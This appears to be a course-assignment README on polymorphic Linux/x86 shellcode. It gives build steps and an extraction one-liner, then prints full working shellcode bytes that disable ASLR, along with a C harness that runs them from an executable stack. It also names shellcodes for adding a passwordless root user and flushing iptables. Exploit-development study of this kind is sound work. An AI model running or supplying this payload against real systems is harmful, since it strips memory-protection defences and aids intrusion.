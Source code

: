 # Assignment 6: Polymorphism

The shellcode featured in this directory are polymorphic versions of the following three shellcodes from [ShellStorm](https://shell-storm.org)

- Shellcode 1: - [Linux/x86 - ASLR deactivation - 83 bytes](https://shell-storm.org/shellcode/files/shellcode-813.php) _by Jean Pascal Pereira_
- Shellcode 2: - [Linux/x86 - add root user (r00t) with no password to /etc/passwd](https://shell-storm.org/shellcode/files/shellcode-211.php) _by Kris Katterjohn_
- Shellcode 3: - [Linux/x86 - execve() of /sbin/iptables -F - 70 bytes](https://shell-storm.org/shellcode/files/shellcode-545.php) _by zillion_

In order to generate the shellcode, it must be compiled using nasm as follows:

```bash
nasm -f elf32 -o disable_aslr_polymorphic.o disable_aslr_polymorphic.nasm
```

Link the program with ld:

```bash
ld -o disable_aslr_polymorphic disable_aslr_polymorphic.o
```

Extract the raw shellcode using the following one-liner from [CommandlineFu](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump)

```bash
objdump -d ./disable_aslr_polymorphic |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1d\x31\xc0\x5b\x66\xb9\xbc\x02\xb0\x08\xcd\x80\x89\xc3\x6a\x30\x89\xe1\x42\xb0\x04\xcd\x80\xb0\x06\xcd\x80\x40\xcd\x80\xe8\xde\xff\xff\xff\x2f\x70\x72\x6f\x63\x2f\x73\x79\x73\x2f\x6b\x65\x72\x6e\x65\x6c\x2f\x72\x61\x6e\x64\x6f\x6d\x69\x7a\x65\x5f\x76\x61\x5f\x73\x70\x61\x63\x65"
```

Paste the raw shellcode into shellcode.c

```C
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x1d\x31\xc0\x5b\x66\xb9\xbc\x02\xb0\x08\xcd\x80\x89\xc3\x6a\x30\x89\xe1\x42\xb0\x04\xcd\x80\xb0\x06\xcd\x80\x40\xcd\x80\xe8\xde\xff\xff\xff\x2f\x70\x72\x6f\x63\x2f\x73\x79\x73\x2f\x6b\x65\x72\x6e\x65\x6c\x2f\x72\x61\x6e\x64\x6f\x6d\x69\x7a\x65\x5f\x76\x61\x5f\x73\x70\x61\x63\x65";

int main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

Compile shellcode.c with gcc:

```bash
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Execute the shellcode binary
```bash
./shellcode                                                                              1 ⚙
Shellcode Length:  71
```

---
